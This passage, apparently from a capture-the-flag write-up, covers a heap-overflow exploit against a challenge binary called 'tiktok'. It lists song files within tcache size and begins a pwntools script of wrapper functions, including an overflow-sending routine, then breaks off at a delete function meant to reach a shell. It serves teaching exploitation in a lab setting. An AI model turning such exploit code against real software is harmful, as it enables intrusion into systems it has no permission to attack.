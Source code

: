 Let's first see what songs are smaller than 1032 bytes in size. Looking at all the songs in the songs.zip file, we see that the following songs are within tcache size:

* `Animal/animal.txt`, which is 946 bytes.
* `Rainbow/godzilla.txt`, which is 767 bytes.
* `Warrior/pastlive.txt`, which is 829 bytes.

Not a lot, but remember we also have the directory song import, which is 1 byte in size. We now know enough to begin building our final exploit, as we can create the strongest overflow situation.

We'll be using pwntools for our exploit. First, we'll need to create function wrappers that'll interact with each operation in the binary:

```python=
from pwn import *
import struct

#Song size:
"""
<directory>: 1 bytes

Animal/animal.txt: 946 bytes
Rainbow/godzilla.txt: 767 bytes
Warrior/pastlive.txt: 829 bytes
"""

context.binary = "./tiktok"
context.terminal = "/bin/bash"

#sh = remote('ctf.umbccd.io', 4700)
sh = process('./tiktok')

@atexception.register
def handler():
	log.failure(sh.recvall())

def imp(path):
	sh.sendlineafter("Choice: ","1")
	sh.sendline(path)
	sh.recvuntil("like to do today?")

def list(amount, tag):
	sh.sendline("2")
	sh.recvuntil(tag)
	return sh.recv(amount)

def play(id, tag="", amount=0):
	sh.sendlineafter("Choice: ", "3")
	sh.sendline(id)
	sh.recvuntil(tag)
	s = sh.recv(amount)
	sh.recvuntil("like to do today?")
	return s

def play_overflow(id, length, content): #Use this if the song you're going to play has its file descriptor overwritten by stdin
	sh.sendlineafter("Choice: ", "3")
	sh.sendline(id)
	sh.sendline(length)
	if len(content) > 0x450: #Check needed due to weird read() buffering over a network.
		print "Error your payload's too long. It is " + str(len(content)) + " bytes."
		exit()
	sh.sendline(content)
	sh.recvuntil("like to do today?")

def delete(id, getsh=0):
```